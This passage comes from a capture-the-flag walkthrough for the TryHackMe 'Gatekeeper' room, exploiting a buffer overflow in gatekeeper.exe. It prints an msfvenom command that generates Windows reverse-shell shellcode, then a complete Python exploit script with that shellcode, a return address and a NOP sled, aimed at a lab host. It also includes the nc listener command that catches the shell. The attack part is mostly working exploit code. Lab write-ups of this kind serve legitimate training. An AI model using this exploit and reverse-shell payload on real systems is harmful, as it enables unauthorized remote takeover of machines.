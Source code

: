 Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
![Shellcode](shellcode.png) 

We need to copy and paste this into our getting a shell template:
```Python
#!/usr/bin/python

import socket

shellcode = ("\xba\x29\xc3\x98\x0f\xda\xce\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x83\xee\xfc\x03\x7f\xcd\x7a\xfa\x83\x39\xf8"
"\x05\x7b\xba\x9d\x8c\x9e\x8b\x9d\xeb\xeb\xbc\x2d\x7f\xb9\x30"
"\xc5\x2d\x29\xc2\xab\xf9\x5e\x63\x01\xdc\x51\x74\x3a\x1c\xf0"
"\xf6\x41\x71\xd2\xc7\x89\x84\x13\x0f\xf7\x65\x41\xd8\x73\xdb"
"\x75\x6d\xc9\xe0\xfe\x3d\xdf\x60\xe3\xf6\xde\x41\xb2\x8d\xb8"
"\x41\x35\x41\xb1\xcb\x2d\x86\xfc\x82\xc6\x7c\x8a\x14\x0e\x4d"
"\x73\xba\x6f\x61\x86\xc2\xa8\x46\x79\xb1\xc0\xb4\x04\xc2\x17"
"\xc6\xd2\x47\x83\x60\x90\xf0\x6f\x90\x75\x66\xe4\x9e\x32\xec"
"\xa2\x82\xc5\x21\xd9\xbf\x4e\xc4\x0d\x36\x14\xe3\x89\x12\xce"
"\x8a\x88\xfe\xa1\xb3\xca\xa0\x1e\x16\x81\x4d\x4a\x2b\xc8\x19"
"\xbf\x06\xf2\xd9\xd7\x11\x81\xeb\x78\x8a\x0d\x40\xf0\x14\xca"
"\xa7\x2b\xe0\x44\x56\xd4\x11\x4d\x9d\x80\x41\xe5\x34\xa9\x09"
"\xf5\xb9\x7c\x9d\xa5\x15\x2f\x5e\x15\xd6\x9f\x36\x7f\xd9\xc0"
"\x27\x80\x33\x69\xcd\x7b\xd4\x56\xba\x83\x4d\x3f\xb9\x83\x98"
"\x0c\x34\x65\xc8\x62\x11\x3e\x65\x1a\x38\xb4\x14\xe3\x96\xb1"
"\x17\x6f\x15\x46\xd9\x98\x50\x54\x8e\x68\x2f\x06\x19\x76\x85"
"\x2e\xc5\xe5\x42\xae\x80\x15\xdd\xf9\xc5\xe8\x14\x6f\xf8\x53"
"\x8f\x8d\x01\x05\xe8\x15\xde\xf6\xf7\x94\x93\x43\xdc\x86\x6d"
"\x4b\x58\xf2\x21\x1a\x36\xac\x87\xf4\xf8\x06\x5e\xaa\x52\xce"
"\x27\x80\x64\x88\x27\xcd\x12\x74\x99\xb8\x62\x8b\x16\x2d\x63"
"\xf4\x4a\xcd\x8c\x2f\xcf\xfd\xc6\x6d\x66\x96\x8e\xe4\x3a\xfb"
"\x30\xd3\x79\x02\xb3\xd1\x01\xf1\xab\x90\x04\xbd\x6b\x49\x75"
"\xae\x19\x6d\x2a\xcf\x0b")

buff = "A"*146 + "\xc3\x14\x04\x08" + "\x90" * 8 + shellcode
RHOST = "192.168.0.227"
RPORT = 31337

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff+'\r\n')
s.close()
```
Before running the Python script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```
![nc ReverseShell](ncReverseShell.png)

Now, let's run our python script:
```python ./shellcode.py
```
When we check our nc listener, we can see that we have a reverse shell now!...

![Revershell](reverseshell.png)

Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
